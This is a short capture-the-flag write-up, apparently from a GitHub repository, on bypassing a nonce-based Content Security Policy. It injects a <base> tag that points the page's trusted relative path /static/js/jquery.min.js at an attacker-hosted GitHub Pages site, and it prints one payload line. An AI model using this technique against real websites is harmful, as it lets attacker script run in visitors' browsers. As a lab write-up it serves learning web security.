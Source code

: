 # solution

This challenge is challenging to me, if i dont get a hints from comment and a buddy i think i cannot solve this one. First let a look a this code.
![alt text](image.png)<br>
Everything is similiar to **csp-bypass** but except this part. Now i need nonce's value to create **script**. Definitely we are not going to brute force it. I try some payload from hacktrick but still not find sth helpful. <br>
After that, i ask for hints and i know that we can
fool the system using our **/static/js/jquery.min.js** link. Cause that link have their own nonce's value so we can take advance of them to do what we want.
![alt text](image-2.png)<br>
And we will use the **&lt;base&gt;** tag. <br>
The idea for this challenge is put a malicious &lt;base&gt; in /flag then retrieve the flag.
First, you need to make public url, and here is how to do it.

1. create a folder like this
   ![alt text](image-1.png)<br>
   in /js. You create a js file name jquery.min.js (or boopstrap.min.js ) with content.
   ![alt text](image-3.png)<br>

2. watch this video about how to create a github page: **https://www.youtube.com/watch?v=e5AwNU3Y2es&t=182s**

3. Next you create a repository with a name **static** (this is very important). Cause base tag doesn't affect absolute paths (those starting with a /); it only affects relative paths.
   If link starts with / they r not refer base full href(if href is aaa.com/path/to/path, they are referring only aaa.com).

4. Next you will create a payload, you change inside href by your domain

```
<base href="https://github.com/dbaothang">
```

5. get the flag
   ![alt text](image-4.png)<br>
